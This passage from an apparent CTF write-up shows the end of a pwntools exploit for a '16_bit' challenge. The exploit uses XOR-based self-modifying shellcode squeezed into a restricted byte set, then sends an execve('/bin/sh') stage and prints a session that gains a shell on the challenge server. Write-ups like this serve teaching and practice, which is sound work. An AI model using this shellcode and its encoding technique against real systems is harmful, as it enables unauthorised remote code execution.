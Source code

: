 ```
''')
#Writing the 0x0f to 0x76:
#Remember dh = 0x39 and al = 0x75 at this point.
shellcode += asm('''
xor al, 0x30;
xor al, 0x33;
xor BYTE PTR [rax], dh;
''')
#Writing the 0x05 to 0x77:
#Remember dh = 0x39 and al = 0x75 at this point.

print(len(shellcode))
shellcode += asm('xor BYTE PTR [rsi], dh;') * ((0x30 - len(shellcode)) // 2)
shellcode += asm('''
xor dh, BYTE PTR [rax]
xor al, 0x39;
''')

shellcode += asm('''
xor al, 0x39;
xor al, 0x30;
xor al, 0x31;
xor BYTE PTR [rax], dh;
''')



payload = base64.b16decode(shellcode + asm('xor BYTE PTR [rsi], dh;') * ((0x70 - len(shellcode)) // 2) + b'A' + b'12' + b'A' + b'14' + b'63') 

print(payload)
target.sendline(payload)

payload2 = b'\x90' * 0x80
payload2 += asm('''
lea rdi, [rip+0x30];
xor rsi, rsi;
xor rdx, rdx;
mov rax, 59;
syscall;
''')
payload2 += b'\x90' * (0x30 - len(payload2) + 0x80 + 7) + b'/bin/sh\x00'

target.sendline(payload2)
target.interactive()
```
Then you just run it a few times until you get a shell; if my odds of success were worse, I would have set up a proper while loop and automatically printed the flag out if possible:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/CyberOpen22$ python3 16_bit_writeup.py
[+] Opening connection to 0.cloud.chals.io on port 23261: Done
42
b'C CA J\x00C@\x00K L\x08\x00@G\x08@C\x00\x06\x06\x06 II@A\x00\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\x06\xa1*\x14c'
[*] Switching to interactive mode
Data:
$ ls
-
banner_fail
bin
boot
chal
```